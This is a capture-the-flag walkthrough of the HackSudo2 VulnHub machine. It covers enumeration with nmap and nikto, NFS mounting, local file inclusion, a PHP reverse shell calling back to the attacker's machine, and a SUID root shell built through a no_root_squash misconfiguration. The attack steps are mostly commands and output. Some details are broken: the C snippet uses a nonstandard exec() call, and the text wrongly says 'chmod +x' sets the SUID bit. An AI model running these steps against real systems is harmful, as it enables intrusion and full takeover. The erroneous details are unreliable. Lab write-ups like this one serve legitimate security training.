

This is a walkthrough for the [HackSudo2](https://www.vulnhub.com/entry/hacksudo-2-hackdudo,667/) boot2root machine on VulnHub.  
## Enumeration
Ran nmap to enumerate services running on the target machine  
`sudo nmap -A -p- 10.0.3.59`
>Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-22 17:21 EDT  
Nmap scan report for 10.0.3.59  
Host is up (0.00056s latency).                                                
Not shown: 65527 closed tcp ports (reset)                                     
PORT      STATE SERVICE  VERSION                                               
80/tcp    open  http     Apache httpd 2.4.46 ((Ubuntu))                         
\|\_http-title: hacksudo:2                                                        
\|\_http-server-header: Apache/2.4.46 (Ubuntu)                                        
111/tcp   open  rpcbind  2-4 (RPC #100000)                                          
\| rpcinfo:                                                                          
\|   program version    port/proto  service                                          
\|   100000  2,3,4        111/tcp   rpcbind                                               
\|   100000  2,3,4        111/udp   rpcbind                                               
\|   100000  3,4          111/tcp6  rpcbind                                               
\|   100000  3,4          111/udp6  rpcbind                                               
\|   100003  3           2049/udp   nfs                                                   
\|   100003  3           2049/udp6  nfs                                                         
\|   100003  3,4         2049/tcp   nfs                                                         
\|   100003  3,4         2049/tcp6  nfs                                                         
\|   100005  1,2,3      34775/udp   mountd                                                      
\|   100005  1,2,3      39085/tcp6  mountd                                                      
\|   100005  1,2,3      44755/udp6  mountd                                                      
\|   100005  1,2,3      58523/tcp   mountd                                                           
\|   100021  1,3,4      35925/tcp   nlockmgr                                                         
\|   100021  1,3,4      37709/udp6  nlockmgr                                                         
\|   100021  1,3,4      43093/udp   nlockmgr                                                         
\|   100021  1,3,4      45317/tcp6  nlockmgr                                                           
\|   100227  3           2049/tcp   nfs_acl                                                            
\|   100227  3           2049/tcp6  nfs_acl                                                              
\|   100227  3           2049/udp   nfs_acl                                                              
\|_  100227  3           2049/udp6  nfs_acl                                                                  
1337/tcp  open  ssh      OpenSSH 8.3p1 Ubuntu 1 (Ubuntu Linux; protocol 2.0)                                
\| ssh-hostkey:                                                                                              
\|   3072 522e9898b9e9c092edacf88cee3c2edc (RSA)                                                                 
\|   256 6bbb8c90716af9e82a128f0a782b267d (ECDSA)                                                                
\|_  256 136845ff32680ce4b51e9baeb633f3be (ED25519)                                                               
2049/tcp  open  nfs_acl  3 (RPC #100227)  
35925/tcp open  nlockmgr 1-4 (RPC #100021)  
37059/tcp open  mountd   1-3 (RPC #100005)  
48763/tcp open  mountd   1-3 (RPC #100005)  
58523/tcp open  mountd   1-3 (RPC #100005)  

Ran nikto to enumerate information and potential vulnerabilities for the web server running on port 80  
`sudo nikto -h http://10.0.3.59`
>\- Nikto v2.5.0  
\---------------------------------------------------------------------------  
\+ Target IP:          10.0.3.59  
\+ Target Hostname:    10.0.3.59  
\+ Target Port:        80  
\+ Start Time:         2023-07-22 17:22:42 (GMT-4)  
\---------------------------------------------------------------------------  
\+ Server: Apache/2.4.46 (Ubuntu)  
[...]  
\+ OPTIONS: Allowed HTTP Methods: OPTIONS, HEAD, GET, POST .  
\+ /web/: Directory indexing found.  
\+ /css/: Directory indexing found.  
\+ /css/: This might be interesting.  
\+ /lib/: Directory indexing found.  
\+ /lib/: This might be interesting.  
\+ /test.html: This might be interesting.  
\+ /web/: This might be interesting.  
\+ /info.php: Output from the phpinfo() function was found.  
\+ /info.php: PHP is installed, and a test script which runs phpinfo() was found. This gives a lot of system information. See: CWE-552  
\+ **/info.php?file=http://blog.cirt.net/rfiinc.txt: Remote File Inclusion (RFI) from RSnake's RFI list. See: https://gist.github.com/mubix/5d269c686584875015a2**  
\+ /README.md: Readme Found.  
\+ 8104 requests: 0 error(s) and 16 item(s) reported on remote host  
\+ End Time:           2023-07-22 17:22:58 (GMT-4) (16 seconds)  
\---------------------------------------------------------------------------  
\+ 1 host(s) tested

Interesting! nikto returns results for a possible RFI vulnerability in info.php  
We will come back to that

The nmap output also indicated that the nfs service is running  
Further enumeration shows that /mnt/nfs is exported on the target machine and can be mounted on our machine  
`showmount -e 10.0.3.59`  
>Export list for 10.0.3.59:  
/mnt/nfs *

Made a local directory on my Kali box at /mnt/nfs (the folder name doesn't have to be identical to the target's), mounted the target machine's /mnt/nfs folder, and gathered the first flag  
`sudo mkdir /mnt/nfs`  
`sudo mount 10.0.3.59:/mnt/nfs /mnt/nfs`  
`ls /mnt/nfs`  
>flag1.txt

`cat flag1.txt`  
>now root this system !!!

Looks like files can be created in this mounted folder too  
`sudo su`  
`cd /mnt/nfs`  
`echo "asdf" > asdf`  
`ls`  
>asdf  
flag1.txt

## Exploitation
Navigated to the page that supposedly has an RFI vulnerability  


Decided to check for LFI since we can create files in the target machine's /mnt/nfs folder  
Navigated to http://10.0.3.59/file.php?file=/mnt/nfs/asdf  
  
LFI confirmed!

Since the web server has a PHP engine, I decided to create a PHP reverse shell  
Used PenTestMonkey's php-reverse-shell.php (located in /usr/share/webshells/php on Kali) and modified the IP and port to point to my Kali machine's IP and port 1234  
Started a nc listener on port 1234  
`nc -lvp 1234`  
Copied the modified php-reverse-shell.php to /mnt/nfs/shell.php  

Navigated to http://10.0.3.59/file.php?file=/mnt/nfs/shell.php  
  
Got a reverse shell running as www-data!

## Privilege Escalation
Transferred over linpeas.sh to /mnt/nfs and ran it  
In the linpeas output, we can see that /mnt/nfs has a spicy option configured: no\_root\_squash  
  

To quote [HackTricks](https://book.hacktricks.xyz/linux-hardening/privilege-escalation/nfs-no_root_squash-misconfiguration-pe):  
>This option basically gives authority to the root user on the client to access files on the NFS server as root. And this can lead to serious security implications.  

So one way we could escalate privileges is to create a SUID file in /mnt/nfs and run it on the target machine  
Used the following [C code](https://github.com/jivoi/pentest/blob/master/shell/suid.c) to create a binary that will execute /bin/sh as root  
```c
int main(void) {
	setgid(0); setuid(0);
	exec("/bin/sh", "sh", 0);
}
```
(In hindsight, probably could have just used a simple bash script rather than a C binary for this)  

Saved the C code to /mnt/nfs/suid.c  
Compiled using `gcc suid.c -static` and generated a file named a.out  
Configured the SUID bit on the compiled file by running `chmod +x a.out`  
  

In the reverse shell, ran a.out  
  
Got root!

### root.txt flag

